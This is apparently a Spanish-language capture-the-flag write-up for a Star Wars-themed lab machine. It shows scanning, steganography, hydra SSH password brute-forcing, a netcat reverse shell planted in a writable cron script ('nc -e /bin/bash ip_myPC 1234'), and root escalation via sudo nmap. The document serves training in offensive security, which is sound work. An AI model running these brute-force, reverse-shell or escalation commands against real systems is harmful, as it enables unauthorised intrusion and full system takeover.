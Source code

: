 # Reto 4 - Star Wars
Herramientas utilizadas:
- nmap
- netcat
- cyberchef
- gobuster
- cewl
- hydra
- wget

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap <ip_mv> -sCV -Pn -p-
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-1.png" /> </p>

Encontramos que la máquina víctima tiene corriendo el servicio ssh por el puerto 22 y un servicio web por el puerto 80. En este punto procedemos a revisar la web que exporta el host.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-2.png" /> </p>

En la web encontramos dos imágenes y un texto que pudiera ser una pista **"Password you shall find".** Sin embargo, si observamos el código fuente de la web, encontramos un mensaje interesante.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-3.png" /> </p>

Tomamos el mensaje codificado en base64 y se lo proporcionamos como entrada a la herramienta online ```CyberChef```. En el **recipe** de la herramienta utilizamos el decodificador base64 y convertimos de binario a decimal la salida.
```
https://gchq.github.io/CyberChef/
```
```
MDExMTAxMDAgMDExMDEwMDAgMDExMDEwMDEgMDExMTAwMTEgMDExMDEwMDEgMDExMTAwMTEgMDExMDExMTAgMDExMDExMTEgMDExMTAxMDAgMDExMDEwMDAgMDExMDAxMDEgMDExMTAwMDAgMDExMDAwMDEgMDExMTAwMTEgMDExMTAwMTEgMDExMTAxMTEgMDExMDExMTEgMDExMTAwMTAgMDExMDAxMDA=

```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-4.png" /> </p>

El resultado no es satisfactorio, no se puede encontrar alguna flag solo un simple mensaje **"thisisnothepassword"**. Sin embargo, nos queda por revisar las imágenes que se muestran en la web. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-5.png" /> </p>

Luego de ubicar las imágenes, procedemos a descargarlas con la herramienta ```wget```.
```
wget http://ip_mv/images/yoda.jpg
wget http://ip_mv/images/yoda.png
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-6.png" /> </p>

Teniendo las imágenes descargadas, utilizamos la herramienta online ```steganography``` para determinar y extraer texto oculto en las imágenes mediante esteganografía.
```
https://stylesuxx.github.io/steganography/ 
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-7.png" /> </p>

Nótese que como resultado obtenemos un posible password **"babyYoda123"** que podríamos usar con algún usuario existente. Con la herramienta ```gobuster``` procedemos a realizar una búsqueda de archivos y directorios de interés en la web.
```
gobuster dir -u http://ip_mv -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .js,.txt,.php
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-8.png" /> </p>

Observamos archivos de interés como un **robots.txt** y un **users.js** que nos podría proporcionar algún usuario válido. Al acceder al contenido del archivo **users.js** encontramos dos posibles usuarios **"skywalker y han"**.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-9.png" /> </p>

En este punto contamos con un posible password y dos posibles usuarios válidos. Utilizamos la herramienta ```hydra``` proporcionando un archivo con los dos posibles usuarios y el password encontrado.
```
hydra -L users.txt -p babyYoda123 ssh://ip_mv
```

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-10.png" /> </p>

Encontramos que el password proporcionado pertence al usuario **han**. Dado este hallazgo, podemos acceder al host a través del servicio ssh proporcionando este usuario y el password
```
ssh han@ip_mv
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-11.png" /> </p>

Luego de acceder como el usuario **han** a la máquina víctima, encontramos un directorio interesante (**".secrets"**). Dentro de este se halla un archivo **note.txt** que contiene la primera flag del reto.
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-12.png" /> </p> 
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-13.png" /> </p>

```
flag{Anakin_is_a_cewl_kid}
```

Posteriormente listamos el contenido del archivo **/etc/passwd** para determinar posibles usuarios válidos en el host. Mediante este paso obtenemos otro posible usuario, **Darth**.
```
tail /etc/passwd
```

Anteriormente se encontró un archivo **robots.txt**. Pasamos a revisarlo y observamos que contiene una pista, nos sugiere que veamos el directorio **r2d2**

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-14.png" /> </p>

Situados en el directorio **r2d2** observamos mucha información. Utilizamos la herramienta ```cewl``` para generar una lista de palabras a partir del contenido en el directorio de la web. Esta lista de palabras nos servirá como diccionario de posibles password.

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-15.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-16.png" /> </p>

```
cewl http://ip_mv/r2d2 > r2d2.txt
```

El siguiente paso sería agregar el usuario **Darth** a nuestro archivo de posibles usuarios y utilizar la herramienta ```hydra``` para dado una lista de posibles password determinar a que usuario pertenece para poder acceder al host a través del servicio ssh.
```
hydra -L users.txt -P r2d2.txt ssh://ip_mv
```

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-17.png" /> </p>

Como resultado obtenemos el password **tatooine** válido para el usuario **skywalker**. Procedemos a acceder a través del servicio ssh a la máquina víctima.
```
ssh skywalker@ip_mv
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-18.png" /> </p>

Dentro de la máquina como el usuario **skywalker**, accedemos al directorio **.secrets** que se encuentra en el path donde estamos ubicados. En el directorio encontramos la segunda flag del reto dentro del archivo **note.txt**

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-19.png" /> </p>

```
flag{Darth_must_take_up_the_job_of_being_a_good_father}
```

Conociendo que existe el usuario **Darth** en la máquina, accedemos a su directorio personal. Dentro del directorio **.secrets** encontramos un script en python que se ejecuta dado un tiempo. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto4-20.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-21.png" /> </p>

Este script tiene permisos de escritura por parte de los no propietarios, por lo que se puede reescribir. Escribimos dentro del script un comando que nos permitirá entablar una reverse shell con la máquina víctima.
```
nano evil.py
import os
os.system("nc -e /bin/bash ip_myPC 1234")
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-22.png" /> </p>

En otra terminal nos ponemos en escucha por un puerto con la herramienta ```netcat``` para recibir la reverse shell.
```
nc -lvp 1234
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-23.png" /> </p>

Dentro de la máquina como el usuario **Darth**, listamos los comandos que podemos usar como root sin proporcionar un password. Encontramos que podemos ejecutar el comando nmap como root. 
```
sudo -l
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-24.png" /> </p>

Buscamos en la pagina ```https://gtfobins.github.io/``` podemos escalar privilegios a través de la herramienta nmap con permisos de root y efectivamente, existe una vía ejecutando comandos.
```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-25.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-26.png" /> </p>

Luego de ejecutar los comandos nos convertimos en root. Accedemos al directorio de root y listamos la última flag del reto.
```
cat /root/flag.txt
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto4-27.png" /> </p>

```
flag {I_hope_you_liked_it_Padawam_:)}
```
